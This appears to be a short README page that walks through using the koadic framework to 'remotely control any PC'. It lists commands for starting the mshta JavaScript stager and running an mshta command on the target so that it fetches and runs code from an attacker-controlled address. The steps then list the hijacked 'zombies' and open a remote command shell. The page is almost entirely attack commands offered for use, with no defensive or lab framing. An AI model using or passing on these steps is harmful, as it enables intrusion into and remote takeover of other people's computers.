 Will be updating first trick for Remotely Control Any PC With koadic tool
Commands and step and by step 

```sudo apt install koadic```

```koadic```

```use stager/js/mshta```

```info```

_go to your target machine_

```mshta http://10.0.2.15:9999/Vls3U (Endpoint)```

```zombies```

```cmdshell 0 (ID)```

<!----In Progress---!>
